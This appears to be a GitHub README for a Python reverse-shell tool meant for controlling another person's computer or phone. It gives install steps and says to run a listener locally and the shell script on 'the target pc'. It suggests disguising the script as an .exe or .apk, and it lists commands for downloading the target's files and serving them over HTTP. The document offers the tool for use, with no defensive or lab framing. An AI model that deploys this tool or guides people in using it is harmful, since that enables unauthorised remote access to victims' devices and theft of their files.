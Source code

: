 # netcut-and-reverce_shell
Controlling othe pc or phone with python
__________________________________
[#] install:<br>
       ~$git clone https://github.com/omer-devil/netcut-and-reverce_shell.git <br>
       and move to the project directory:<br>
             ~$cd netcut-and-reverce_shellh<br>
       now install the requirements.<br>
             ~$pip3 install -r requirements.txt<br>
       
___________________________________
[#] how to use:<br>
       first run Net-Cat on your computer:<br>
               ~$python3 netcat.py<br>
       then run reverce_shell on the target pc<br>
               ~$python3 reverce_shell.py<br>
       and then you get access to the target pc or phone<br>
       note:-you can conver reverce_shell.py into .exe file or .apk file<br>
            to conver it to .exe use pyinstaller and<br>
            for .apk use buildozer<br>
______________________________________
[#] all the command availabl in netcut-and-reverce_shellh, with use and example:<br>
    Commands.                 Use.                                  Example<br>
    l-host.                   local-host <command>                  local-host ls<br>
    download.                 download <file name>                  download music.mp4<br>
    server.                   server <IP:PORT>                      server 127.0.0.1:468<br>
    target-ip.                target-ip                             it shows the target ip<br>
    output_save.              output_save <True/False>              output_seve True or output_save False<br>
    <br>
    help.                     shows this help message<br>

l-host <commands>     : used to execute command on the local-host
         example -->  l-host pwd
                      l-host ls
download <file_name>  : used to download file,mid,app and other from the target
         example --> download video.mp4
                     download music.mp3

server <host:port>    : used to run http server on the target to access target file throughout browser
         example --> server 127.0.0.1:55555
         note: it only recommend on the same network


target-ip <optional_command>: used to return the target ip
         example --> target-ip
                     target-ip help : help is the only 
                              optional command available

output_save <True|False>    : used to save the received output 
                              command to default file name or 
                              you can changed the file name
         example --> output_seve True  : start saving
                     output_seve False : stop saving

